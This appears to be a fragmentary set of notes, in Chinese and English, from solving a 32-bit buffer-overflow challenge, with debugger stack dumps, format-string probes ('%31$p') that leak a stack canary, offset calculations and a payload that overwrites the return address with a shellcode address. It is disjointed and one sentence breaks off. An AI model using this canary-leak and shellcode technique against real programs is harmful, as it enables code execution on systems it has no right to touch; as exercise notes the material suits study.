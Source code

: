 EAX: 0x9b46c00  canary



0xfffb43fc



0xfffb4380





EAX: 0xa01ec100 canary



0xffa3f50c:	0xa01ec100







EAX: 0x5243de00







main ret

0004| 0xffffd5ec --> 0xf7e15637



main canary

EAX: 0x3c48ec00



canary addr

0xffffd5dc



0024| 0xffffd578 ("%31$x")



getmessge canary

EAX: 0x3c48ec00



getmes canary addr

0xffffd54c:	0x3c48ec00



canary一样

mov    eax,gs:0x14



0000| 0xffffd4d0 --> 0xffffd578 ("%31$x")



getmess ret addr

0000| 0xffffd55c --> 0x8048577 (<main+90>:



泄漏canary之后，返回函数重新执行一遍











ret addr

0000| 0xffffd55c --> 0x8048577



0x10=16



canary

0xffffd54c



0x64=100



0xffffd4e8

0000| 0xffffd4d0 --> 0xffffd4e8 ('A' <repeats 68 times>)





ret addr

0000| 0xffffd55c --> 0x8048577 (<main+90>:





0xffffd55c-0xffffd558+0xc=0x10

开头需要填充canary 结尾需要填充返回地址，所以需要减去4，距离为12





栈开始的地方

ESP: 0xffffd558 --> 0xffffd5e8 --> 0x0



EAX: 0x2df0a800





stack_start

ESP: 0xff8942f8



canary

EAX: 0xb9c35300







EBP: 0xffa43d58 --> 0xffa43de8 --> 0x0



输入字符串，存储的地方

0008| 0xffa43d60 --> 0xffa43d78 ("AAAABBBB %31$p %34$p")







get-message push ebp; mov ebp,esp

EBP: 0xffe88238 --> 0xffe882c8（main函数的ebp地址）





0012| 0xffe881bc --> 0xffe88258 ("%31$p.%34$p")

        0xffe88240	   0xffe88258



0xffe88240是main函数栈中保存printf输入字符串的地址，在getmessage函数中也有几处，但是退出message函数就会



main的ebp

EBP: 0xffffd498 --> 0x0



canary: 0xffffd48c

0xffffd410 --> 0xffffd428 ("AAAA")



main的canary离字符串距离为 0x7c=124个地址 ，shellcode不能超过124个地址





问题：

最后shellcode会不会覆盖main的canary



payload = 'a'*100 + p32(int(canary,16)) + 'a'*12 + p32(shellcode_addr) + shellcode + shellcode + shellcode







shellcode无论多长也不影响，因为没有执行到main的ret语句，main函数能不能正确返回无所谓，所以覆盖了main栈中的canary也没事